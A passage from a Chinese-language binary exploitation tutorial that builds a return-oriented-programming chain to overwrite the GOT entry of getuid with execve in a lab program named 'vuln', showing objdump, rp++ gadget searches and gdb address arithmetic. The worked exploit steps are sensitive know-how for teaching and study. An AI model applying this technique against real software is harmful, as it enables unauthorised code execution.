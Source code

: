 好的。我们找到了一个`add`零件，它将结果复制到内存区域中。现在如果我们可以使 EBX 包含`GOT[getuid] - 0x5d5b04c4`，并使 EAX 包含偏移差，我们就可以成功执行 GOT 覆盖。

零件 2：确保 EBX 包含`getuid`的 GOT 条目。`getuid`的 GOT 条目（在下面展示）位于`0x804a004`。因此 EBX 应该为`0x804a004`，但是由于`add`零件中，固定值`0x5d5b04c4`加到了 EBX，所以 EBX 应减去这个固定值，也就是`ebx = 0x804a004 -0x5d5b04c4 = 0xaaa99b40`。现在我们需要寻找一个零件，它将这个值`0xaaa99b40`复制到 EBX 寄存器中。

```
$ objdump -R vuln
vuln: file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE 
08049ff0 R_386_GLOB_DAT __gmon_start__
0804a000 R_386_JUMP_SLOT printf
0804a004 R_386_JUMP_SLOT getuid
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$ 
```

好的，我们找到了`pop ebx`零件。因此将该值`0xaaa99b40`压入栈，并返回到`pop ebx`之后， EBX 包含`0xaaa99b40`。

零件 3：确保 EAX 包含偏移差。因此我们需要找到一个零件，它将偏移差复制到 EAX 寄存器中。

```
$ gdb -q vuln
...
(gdb) p execve
$1 = {} 0xb761a1f0 
(gdb) p getuid
$2 = {} 0xb761acc0 
(gdb) p/x execve - getuid
$4 = 0xfffff530
(gdb) 
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.
```